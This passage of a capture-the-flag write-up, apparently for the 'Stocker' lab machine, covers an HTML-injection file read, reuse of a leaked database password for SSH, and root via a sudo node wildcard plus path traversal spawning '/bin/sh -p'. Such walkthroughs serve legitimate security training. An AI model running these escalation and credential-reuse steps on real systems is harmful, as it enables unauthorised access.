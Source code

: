 ![](logged_in_stock.png)

Add an item to cart and intercept `Submit Purchase` request:

![](htmli.png)

![](pdf_passwd.png){: .normal width="65%"}

![](burp_jsconfig.png)

![](jsconfig.png)

```java
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

>_The only user was `angoose`, there was no `dev` user within `/etc/passwd`._

```bash
$ ssh angoose@10.10.11.196
...snip...
angoose@stocker:~$ cat user.txt
...snip...
```

## Privilege Escalation

```bash
# check for sudo access
angoose@stocker:~$ sudo -l
[sudo] password for angoose:
Sorry, try again.
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

>[GTFOBins: Node > Sudo](https://gtfobins.github.io/gtfobins/node/#sudo) + Directory Traversal Attack

```bash
angoose@stocker:~$ cd /tmp
angoose@stocker:/tmp$ nano root.js
angoose@stocker:/tmp$ cat root.js
require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})
angoose@stocker:/tmp$ sudo /usr/bin/node /usr/local/scripts/../../../tmp/root.js
[sudo] password for angoose:
# cat /root/root.txt
...snip...
```
